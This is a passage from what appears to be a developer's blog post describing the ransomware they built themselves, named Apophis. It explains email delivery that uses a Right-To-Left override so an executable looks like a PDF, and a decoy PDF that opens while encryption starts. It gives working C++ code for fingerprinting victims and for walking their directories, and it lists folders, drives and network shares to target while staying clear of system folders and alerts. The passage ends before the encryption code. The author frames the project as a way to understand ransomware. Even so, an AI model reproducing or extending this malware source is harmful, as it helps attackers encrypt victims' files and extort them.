

Table of Contents
Introduction
One of the biggest and perhaps most dangerous threats we face on a daily basis is ransomware. The Apophis ransomware was created so I could better understand how these programs operate.
Apophis is fairly large as far as malware goes. The typical piece of malware is less than 200 lines of code. Of course, there are pieces at the extreme like Stuxnet, which has an estimated 150,000 lines of code. Apophis is written in about 2500 lines of C++20 code. The Key Exchange server is about 200 lines of JS and 50 lines of SQL. I used mbedTLS for handling non-network encryption and the built-in WinHTTP library for SSL/TLS.
The idea behind Apophis is that it would be sent as an email attachment. It uses the Unicode Right-To-Left override character to make it look like a PDF. The actual name is something like "scan_of_cortfdp.exe". By inserting the "202E" character, we can flip the last 7 characters: "scan_of_cortexe.pdf"
When the user opsn the "PDF", assuming it is not filtered by the email application or sensors, it will extract and open a real PDF containing a picture of an actual cerebral cortex. Then, while the user is looking at it, the encryption process will begin.
Here is a flow diagram highlighting the major steps:
Generating a Unique Host ID
To keep track of who is who in the key server, we will need a way of uniquely identifying each victim. This done by extracting some basic information about the system, concatenating it, then hashing it. This info includes the first MAC address, the hostname, and the name of the user Apophis is running as.
Finding the hostname and username are fairly simple:
/// HostName
GetComputerNameExA(ComputerNameDnsHostname, buffer.data(), &sz);
/// Username
GetUserNameA(buffer.data(), &sz);
Getting the MAC address is a bit trickier because we have to parse through the various interfaces. Adapter information is obtained via the GetAdaptersInfo function from IPHLPAPI.DLL. It will return a linked list containing information about each adapter. We will have to parse it and ignore any interfaces that contain no useful information.
std::string HostIdGenerator::getMacAddress()
{
ULONG bufferSize = 0;
// get the buffer size
PIP_ADAPTER_INFO p_adapterInfo = (PIP_ADAPTER_INFO)malloc(sizeof(IP_ADAPTER_INFO));
ExternFnLdr::A_GetAdaptersInfo(p_adapterInfo, &bufferSize);
free(p_adapterInfo);
p_adapterInfo = (PIP_ADAPTER_INFO)malloc(bufferSize);
DWORD ret = ExternFnLdr::A_GetAdaptersInfo(p_adapterInfo, &bufferSize);
if (FAILED(ret))
return std::to_string(GetLastError());
PIP_ADAPTER_INFO p_adapter = p_adapterInfo;
std::string hwaddress{};
if (!parseAdapterList(p_adapter, hwaddress))
return "";
return hwaddress;
}
bool HostIdGenerator::parseAdapterList(PIP_ADAPTER_INFO list, std::string& adapterAddressOut)
{
if (!list)
return false;
do {
if (!parseIpAddressList((PIP_ADDR_STRING)&list->IpAddressList))
continue;
adapterAddressOut = AdapaterAddressToString(list->Address, list->AddressLength);
return true;
} while ((list = list->Next));
return false;
}
bool HostIdGenerator::parseIpAddressList(PIP_ADDR_STRING list)
{
while (list)
{
/// 0.0.0.0 means its empty
if (strcmp(list->IpAddress.String, "0.0.0.0") == 0)
{
list = list->Next;
continue;
}
m_ipAddress = list->IpAddress.String;
return true;
}
return false;
}
To put it all together:
void HostIdGenerator::generateId()
{
std::stringstream builder{};
builder << getMacAddress() << "_"
<< getHostName() << "_"
<< getCurrentUser();
m_genId = builder.str();
psa_algorithm_t algo = PSA_ALG_SHA_256;
psa_hash_operation_t operation = PSA_HASH_OPERATION_INIT;
psa_hash_setup(&operation, algo);
psa_hash_update(&operation, (const uint8_t*)m_genId.c_str(), m_genId.length());
size_t opt;
psa_hash_finish(&operation, m_hashedID.data(), m_hashedID.max_size(), &opt);
psa_hash_abort(&operation);
}
Locating Files
Since Apophis will likely be running as an unprivileged user, we will attempt to locate any non-system files that the user has read/write permissions for.
C:\User\*- Everything in
C:\except C:\DriversC:\WindowsC:\TempC:\tmpC:\Program FilesC:\Program Files(x86)- Avoid trying to access things we almost certainly cannot
- Avoid setting off alerts for trying to access critical files like anything in SYSVOL
- Avoid accidently encrypting things that could impact the system
- Any non-system drives including non-primary drives and partitions, and mapped network shares.
This is so we:
DirectoryIterator
The first order of business is replacing std::filesystem::recursive_directory_iterator. I found that it was horribly inaccurate and threw a ton of errors no matter the configuration. The only way to fix it was to have it ignore everything. I decided to write a simplified version of it that uses callbacks.
///
/// DirectoryIterator.h
///
#include <functional>
using DirIterCallback = std::function<void(const Path&, DWORD)>
class DirectoryIterator
{
public:
DirectoryIterator(const std::string& searchPattern, DirIterCallback callback);
/// Run non-recursively
bool run();
bool runRecurse(size_t maxDepth);
bool runRecurse(const std::string& base, size_t maxDepth);
private:
std::string m_baseSearchPath;
DirIterCallback m_callback;
};
///
/// DirectoryIterator.cpp
///
bool DirectoryIterator::run()
{
if (!m_callback)
return false;
std::string pattern = m_baseSearchPath;
/// ensure it's an actual pattern
if (!m_baseSearchPath.ends_with("*"))
pattern.ends_with('\\') ? pattern += "*" : pattern += "\\*";
WIN32_FIND_DATAA fileIter{};
HANDLE hSearch = FindFirstFileA(pattern.c_str(), &fileIter);
if (hSearch == INVALID_HANDLE_VALUE)
return false;
do {
/// ignore '.' and '..'
if (fileIter.cFileName[0] == '.' && strlen(fileIter.cFileName) <= 2)
continue;
Path path = m_baseSearchPath + '\\' + fileIter.cFileName;
/// call the callback
m_callback(path, fileIter.dwFileAttributes);
// next file
} while (FindNextFileA(hSearch, &fileIter) != 0);
return true;
}
bool DirectoryIterator::runRecurse(size_t maxDepth)
{
return runRecurse(m_baseSearchPath, maxDepth);
}
bool DirectoryIterator::runRecurse(const std::string& base, size_t maxDepth)
{
/// essentially the same as DirectoryIterator::run
/// This decrements maxDepth and returns when it hits zero
}
This solves literally all of the problems Microsoft recursive_directory_iterator created.
ResourceLocator
Now that we can access files, we need to determine what files to access and whether we have read and write permission.
The locator function looks like this:
int ResourceLocator::locate()
{
return locateUserProfiles() + locateDrives() + locateCRootDriveFolders();
}
They all work almost exactly the same. Locate Drives uses the GetLogicalDriveStringsA function, which, in my not so humble opinion, is extremely outdated, but easy to use.
Each of those functions uses a lambda based callback: